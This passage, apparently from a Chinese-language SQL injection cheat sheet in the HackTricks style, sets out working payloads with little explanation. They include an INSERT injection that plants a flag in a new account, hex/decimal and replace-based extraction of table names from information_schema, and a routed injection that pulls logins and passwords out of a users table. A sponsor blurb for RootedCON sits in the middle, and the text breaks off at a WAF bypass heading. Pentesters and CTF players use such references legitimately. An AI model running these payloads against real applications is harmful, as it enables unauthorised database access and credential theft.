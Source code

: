 当尝试创建一个新用户时，需要用户名、密码和电子邮件：
```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```
#### 使用十进制或十六进制

使用此技术，您可以仅创建 1 个帐户来提取信息。重要的是要注意，您不需要注释任何内容。

使用 **hex2dec** 和 **substr**:
```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
要获取文本，您可以使用：
```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```
使用 **hex** 和 **replace**（以及 **substr**）：
```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​[**RootedCON**](https://www.rootedcon.com/) 是 **西班牙** 最相关的网络安全事件，也是 **欧洲** 最重要的事件之一。 该大会 **旨在促进技术知识**，是各个学科的技术和网络安全专业人士的热烈交流平台。

{% embed url="https://www.rootedcon.com/" %}

## Routed SQL injection

Routed SQL injection 是一种情况，其中可注入查询不是产生输出的查询，而是可注入查询的输出传递给产生输出的查询。 ([来自论文](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt))

示例：
```
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```
## WAF Bypass
